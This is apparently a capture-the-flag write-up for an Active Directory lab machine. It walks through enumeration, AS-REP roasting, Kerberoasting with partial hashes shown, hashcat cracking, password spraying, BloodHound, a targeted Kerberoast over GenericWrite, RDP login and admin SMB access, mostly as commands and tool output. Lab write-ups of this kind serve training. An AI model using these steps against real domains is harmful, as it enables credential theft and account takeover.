

starting off with the nmap :

```sql
PORT     STATE SERVICE           VERSION
53/tcp   open  domain            Simple DNS Plus
80/tcp   open  http              Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp   open  kerberos-sec      Microsoft Windows Kerberos (server time: 2026-03-01 10:42:57Z)
135/tcp  open  msrpc             Microsoft Windows RPC
139/tcp  open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
443/tcp  open  ssl/http          Microsoft IIS httpd 10.0
| ssl-cert: Subject: commonName=thm-LABYRINTH-CA
| Issuer: commonName=thm-LABYRINTH-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-05-12T07:26:00
| Not valid after:  2028-05-12T07:35:59
| MD5:   c249:3bc6:fd31:f2aa:83cb:2774:bc66:9151
|_SHA-1: 397a:54df:c1ff:f9fd:57e4:a944:00e8:cfdb:6e3a:972b
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
| tls-alpn: 
|_  http/1.1
|_ssl-date: 2026-03-01T10:43:59+00:00; -6h39m38s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ldapssl?
3268/tcp open  ldap              Microsoft Windows Active Directory LDAP (Domain: thm.local0., Site: Default-First-Site-Name)
3269/tcp open  globalcatLDAPssl?
3389/tcp open  ms-wbt-server     Microsoft Terminal Services
| ssl-cert: Subject: commonName=ad.thm.local
| Issuer: commonName=ad.thm.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-28T10:40:36
| Not valid after:  2026-08-30T10:40:36
| MD5:   40f9:b8f0:7cfd:3c1d:e97a:d652:56ee:935f
|_SHA-1: 60b8:c51d:2fe1:c2b4:3ed5:4bbf:cce3:0465:0113:4045
| rdp-ntlm-info: 
|   Target_Name: THM
|   NetBIOS_Domain_Name: THM
|   NetBIOS_Computer_Name: AD
|   DNS_Domain_Name: thm.local
|   DNS_Computer_Name: ad.thm.local
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-01T10:43:36+00:00
|_ssl-date: 2026-03-01T10:43:59+00:00; -6h39m38s from scanner time.
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=3/1%OT=53%CT=1%CU=41036%PV=Y%DS=3%DC=T%G=Y%TM=69A47620
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=100%GCD=1%ISR=106%CI=I%TS=U)SEQ(SP=106%GCD
OS:=1%ISR=108%CI=I%TS=U)SEQ(SP=106%GCD=1%ISR=10B%TS=U)SEQ(SP=106%GCD=1%ISR=
OS:10C%TS=U)SEQ(SP=107%GCD=1%ISR=10C%TS=U)OPS(O1=M4E8NW8NNS%O2=M4E8NW8NNS%O
OS:3=M4E8NW8%O4=M4E8NW8NNS%O5=M4E8NW8NNS%O6=M4E8NNS)WIN(W1=FFFF%W2=FFFF%W3=
OS:FFFF%W4=FFFF%W5=FFFF%W6=FF70)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M4E8NW8NNS%CC=Y%
OS:Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=Y%T=80%W=0%S=Z%A=S%F
OS:=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T4(R=Y%DF=Y%
OS:T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)T6(R=Y%DF=Y%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=80%W=0%S
OS:=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK
OS:=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=80%CD=Z)

Network Distance: 3 hops
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: Busy server or unknown class
Service Info: Host: AD; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -6h39m39s, deviation: 1s, median: -6h39m40s
| smb2-time: 
|   date: 2026-03-01T10:43:38
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 1025/tcp)
HOP RTT       ADDRESS
1   108.85 ms 192.168.128.1
2   ...
3   108.91 ms 10.112.169.74

NSE: Script Post-scanning.
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
Initiating NSE at 12:23
Completed NSE at 12:23, 0.00s elapsed
Read data files from: /usr/share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 73.50 seconds
           Raw packets sent: 1333 (70.068KB) | Rcvd: 4284 (1.945MB)
```


I usually start with looking at port 80, which turned out to be an average IIS page :


This is the same case for port 443. Attempting to use gobuster to find directories :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ gobuster dir \                                                                                                            
  --url http://10.113.154.123/ \
  -w /usr/share/wordlists/dirb/big.txt  
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.113.154.123/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/aspnet_client        (Status: 301) [Size: 159] [--> http://10.113.154.123/aspnet_client/]
Progress: 20469 / 20469 (100.00%)
===============================================================
Finished
===============================================================
```

nothing, so let's move on.

looking at the RPC ports, we get ACCESS DENIED and DISCONNECTED :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ rpcclient -U '' -N 10.x.x.x      
rpcclient $> enumdomusers
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> querydispinfo
result was NT_STATUS_CONNECTION_DISCONNECTED
rpcclient $> ^C
```

looks like we didn't get anything, moving on to the port 445 for smb:

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u '' -p ''                                          
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.113.154.123  445    AD               [+] thm.local\: 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u '' -p '' --shares 
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.113.154.123  445    AD               [+] thm.local\: 
SMB         10.113.154.123  445    AD               [-] Error enumerating shares: STATUS_ACCESS_DENIED
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ smbclient -L \\\\10.113.154.123\\      
Password for [WORKGROUP\kali]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.113.154.123 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available\
```

It looks like we don't really have the option to login anonymously, so now that we really have nothing to depend on, i will use the GetUserSPNs and NPU users, but first, we must get a list of users :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u '' -p '' --rid-brute
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [+] thm.local\: 
SMB         10.113.154.123  445    AD               498: THM\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.113.154.123  445    AD               500: THM\Administrator (SidTypeUser)
SMB         10.113.154.123  445    AD               501: THM\Guest (SidTypeUser)
<SNIP>
```

we have 400+ objects, so i won't paste everthing.
Copying all of them, we run the following to filter only to get the users :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ cat users | grep SidTypeUser | awk '{print $6}'
```

What i usually do to remove the  THM slash part, is to open mousepad and delete all of similar objects as shown :


now that we filtered, let's run GetNPUsers and SPNs with the Guest account: 

```python
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ impacket-GetNPUsers -usersfile users -request -format hashcat -outputfile ASREProastables.txt -dc-ip 10.113.154.123 'thm.local/'
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User AD$ doesn't have UF_DONT_REQUIRE_PREAUTH set
<SNIP>
$krb5asrep$23$SHELLEY_BEARD@THM.LOCAL:d00f8be97fb8befb950b20187d9f9f39$e0fcced2946ead8094d1ef4a05805[REDACTED]
<SNIP>
$krb5asrep$23$ISIAH_WALKER@THM.LOCAL:c8d1465a6887c9bcaf336cba25f9b824$c56bd6abacad0d9f87385a38c0cacd994ffb3bf7de448183993b60e74d8ae2ed63090d48bab2ac986d5ca03e7d7a7b0f8bf3e1aec[REDACTED]
<SNIP>
$krb5asrep$23$QUEEN_GARNER@THM.LOCAL:cd7c586c0dccb68d35a9ebf215a19970$52ef18d067286aeb2c1369c587e21a83970ba9e8455f2a853ba978a971b2a581a2ea22b853187faaea8de48e16a72e6cee22a5747e412ef264c74160[REDACTED]
<SNIP>
$krb5asrep$23$PHYLLIS_MCCOY@THM.LOCAL:b9fc50155e12256b397b7c0f71dfc8d4$e9f6c03ce409083cf404d1e0d0382245128af4a[REDACTED]
<SNIP>
$krb5asrep$23$MAXINE_FREEMAN@THM.LOCAL:669690aa1cf1a13cb8c875b6c676e59a$023cf6c4a36f85e6bbbcc57bb477b3a7d [REDACTED]
```

Tried cracking them but they didn't work, now let's look at the GetUserSPNs with the guest account:

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ impacket-GetUserSPNs -outputfile kerberoastables.txt -dc-ip 10.113.154.123 'thm.local/Guest:' -request -outputfile hash
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Password:
ServicePrincipalName    Name      MemberOf                                            PasswordLastSet             LastLogon                   Delegation 
----------------------  --------  --------------------------------------------------  --------------------------  --------------------------  ----------
HTTP/server.secure.com  CODY_ROY  CN=Remote Desktop Users,CN=Builtin,DC=thm,DC=local  2024-05-10 10:06:07.611965  2024-04-24 11:41:18.970113             


[-] CCache file is not found. Skipping...

```

We got cody_roy, trying to crack the hash with -m 13100 :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ hashcat -m 13100 -a 0 hash /usr/share/wordlists/rockyou.txt --force 
hashcat (v6.2.6) starting

<SNIP>

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*CODY_ROY$THM.LOCAL$thm.local/CODY_ROY*...fafd54
Time.Started.....: Mon Mar  2 02:32:43 2026, (0 secs)
Time.Estimated...: Mon Mar  2 02:32:43 2026, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
```

confirming we have smb access :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u 'cody_roy' -p [REDACTED]            
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [+] thm.local\cody_roy:[REDACTED]
```

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ echo 'cody_roy / [REDACTED]' > creds 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u 'cody_roy' -p '[REDACTED]'            
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [+] thm.local\cody_roy:[REDACTED] 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u 'cody_roy' -p [REDACTED] --shares
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [+] thm.local\cody_roy:[REDACTED] 
SMB         10.113.154.123  445    AD               [*] Enumerated shares
SMB         10.113.154.123  445    AD               Share           Permissions     Remark
SMB         10.113.154.123  445    AD               -----           -----------     ------
SMB         10.113.154.123  445    AD               ADMIN$                          Remote Admin
SMB         10.113.154.123  445    AD               C$                              Default share
SMB         10.113.154.123  445    AD               IPC$            READ            Remote IPC
SMB         10.113.154.123  445    AD               NETLOGON        READ            Logon server share 
SMB         10.113.154.123  445    AD               SYSVOL          READ            Logon server share 
                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u 'cody_roy' -p [REDACTED] -M spider_plus
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [+] thm.local\cody_roy:[REDACTED] 
SPIDER_PLUS 10.113.154.123  445    AD               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.113.154.123  445    AD               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.113.154.123  445    AD               [*]     STATS_FLAG: True
SPIDER_PLUS 10.113.154.123  445    AD               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.113.154.123  445    AD               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.113.154.123  445    AD               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.113.154.123  445    AD               [*]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus
SMB         10.113.154.123  445    AD               [*] Enumerated shares
SMB         10.113.154.123  445    AD               Share           Permissions     Remark
SMB         10.113.154.123  445    AD               -----           -----------     ------
SMB         10.113.154.123  445    AD               ADMIN$                          Remote Admin
SMB         10.113.154.123  445    AD               C$                              Default share
SMB         10.113.154.123  445    AD               IPC$            READ            Remote IPC
SMB         10.113.154.123  445    AD               NETLOGON        READ            Logon server share 
SMB         10.113.154.123  445    AD               SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.113.154.123  445    AD               [+] Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.113.154.123.json".
SPIDER_PLUS 10.113.154.123  445    AD               [*] SMB Shares:           5 (ADMIN$, C$, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.113.154.123  445    AD               [*] SMB Readable Shares:  3 (IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.113.154.123  445    AD               [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.113.154.123  445    AD               [*] Total folders found:  35
SPIDER_PLUS 10.113.154.123  445    AD               [*] Total files found:    12
SPIDER_PLUS 10.113.154.123  445    AD               [*] File size average:    1.37 KB
SPIDER_PLUS 10.113.154.123  445    AD               [*] File size min:        23 B
SPIDER_PLUS 10.113.154.123  445    AD               [*] File size max:        6.03 KB
```

We i did now was to look for password reuse :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ nxc smb 10.113.154.123 -u users -p [REDACTED]  --continue-on-success
SMB         10.113.154.123  445    AD               [*] Windows 10 / Server 2019 Build 17763 x64 (name:AD) (domain:thm.local) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                                              
SMB         10.113.154.123  445    AD               [-] thm.local\Administrator:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\Guest:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\krbtgt:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\AD$:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\SHANA_FITZGERALD:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\CAREY_FIELDS:[REDACTED] STATUS_LOGON_FAILURE 
SMB         10.113.154.123  445    AD               [-] thm.local\DWAYNE_NGUYEN:[REDACTED] STATUS_LOGON_FAILURE
<SNIP>
SMB         10.113.154.123  445    AD               [+] thm.local\ZACHARY_HUNT:[REDACTED]
```

So now, personally i went for bloodhound :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation]
└─$ bloodhound-python -u 'ZACHARY_HUNT' \ 
-p [REDACTED] \
-d thm.local \
-ns 10.113.154.123 \
-c All \
--zip

INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: thm.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (ad.thm.local:88)] [Errno 110] Connection timed out
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: ad.thm.local
INFO: Found 490 users
INFO: Found 53 groups
INFO: Found 4 gpos
INFO: Found 216 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: ad.thm.local
INFO: Done in 00M 59S
INFO: Compressing output into 20260302024945_bloodhound.zip
```

Now, running bloodhound we see that we have a 1 hop attack:


Pressing on GenericWrite, we get a TargetedKerberoast Attack, which it tells us how to do it.

Attempting it now (targeted-kerberoast github resource)
Source : https://github.com/ShutdownRepo/targetedKerberoast

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation/targetedKerberoast]
└─$ python3 targetedKerberoast.py -v -d 'thm.local' -u 'ZACHARY_HUNT' -p [REDACTED] --dc-ip 10.113.154.123   
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (CODY_ROY)
[REDACTED]
[+] Printing hash for (JERRI_LANCASTER)
$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$9c1e16d017e3a968023b96224bfdd82e$cabe64d8ca6b5276a2229aba7c4f45b7dc0e3f377a02636d9382424a8f09dc02adafac8e4b73011270a076e199ae7de5c11a [REDACTED]
```

We get about 15 hashes, Now i won't show the results of hashcat but only the Jerri_lancaster hash cracked :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation/targetedKerberoast]
└─$ hashcat -m 13100 -a 0 all-hashes /usr/share/wordlists/rockyou.txt 

hashcat (v6.2.6) starting

<SNIP>

$krb5tgs$23$*JERRI_LANCASTER$THM.LOCAL$thm.local/JERRI_LANCASTER*$9c1e16d017e3a968023b96224bfdd82e$cabe64d8ca6b5276a2229aba7c4f45b7dc0e3f377a02636d9382424a8f09dc02adafac8e4b73011270a076e199ae7de5c[REDACTED]:[REDACTED]
```

now, we have remote management for jerri :


So we can RDP into jerri :

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation/targetedKerberoast]
└─$ xfreerdp3 /u:JERRI_LANCASTER /p:[REDACTED] /v:10.112.135.169
[03:23:50:154] [42366:0000a57e] [WARN][com.freerdp.client.common.cmdline] - [warn_credential_args]: Using /p is insecure
```

And we get logged into the rdp session. Now, personally i've enumerated alot and completely missed a really clear folder. Also, AV was enabled, which didn't accept winpeas (when i was missing the folder) so i kinda got lost until after a while i got it.

So first off, let's open cmd by running the shortcut WIN -> R and type cmd :


Press enter and it will open cmd: 


now, we got the C:\ directory and look for interesting folders :


Data and Scripts look promising, let's look at Data first :


nothing.
```gci -force``` just shows hidden files, and acts like an  ```ls -la```  in linux.

now looking at the Scripts directory :



We see a syncer.ps1 which when i opened, gave me creds, but who is this user ? 


This user has Administrator rights, which means that we can go into the administrator directory and claim our flag.

you have alot of options depending on how you do it (reading the flag), but personally, I went for downloading it from smbclient:

```sql
┌──(kali㉿kali)-[~/Desktop/THM/Operation/targetedKerberoast]
└─$ smbclient -U 'SANFORD_DAUGHERTY' //10.112.135.169/C$
Password for [WORKGROUP\SANFORD_DAUGHERTY]:
Try "help" to get a list of possible commands.
smb: \> sl
sl: command not found
smb: \> ls
  $Recycle.Bin                      DHS        0  Tue Apr 16 13:11:56 2024
  Boot                              DHS        0  Thu May 11 12:40:27 2023
  bootmgr                          AHSR   411042  Thu May 11 12:24:04 2023
  BOOTNXT                           AHS        1  Sat Sep 15 03:12:30 2018
  Data                                D        0  Tue May 16 07:00:25 2023
  Documents and Settings          DHSrn        0  Wed Nov 14 11:10:15 2018
  EFI                                 D        0  Wed Nov 14 01:56:18 2018
  inetpub                             D        0  Fri May 12 03:34:20 2023
  pagefile.sys                      AHS 738197504  Mon Mar  2 03:06:19 2026
  PerfLogs                            D        0  Wed May 13 13:58:09 2020
  Program Files                      DR        0  Wed Jul  5 08:06:48 2023
  Program Files (x86)                 D        0  Thu Mar 11 02:29:46 2021
  ProgramData                       DHn        0  Mon Apr 22 12:19:20 2024
  Recovery                         DHSn        0  Wed Mar 17 10:57:36 2021
  Scripts                             D        0  Mon May 13 15:23:53 2024
  System Volume Information         DHS        0  Fri May 12 03:13:12 2023
  Users                              DR        0  Mon Mar  2 03:24:29 2026
  Windows                             D        0  Tue Apr 16 17:56:28 2024

                7863807 blocks of size 4096. 3044275 blocks available
smb: \> cd Users\Administrator\Desktop
smb: \Users\Administrator\Desktop\> get flag.txt.txt 
```

What a machine it was !!

We are done here.

### Looking at permissions SANFORD has over Administrator:


Looking SANFORD's Details :


We have permission to do everything now. So we can say that we have successfully compromised.
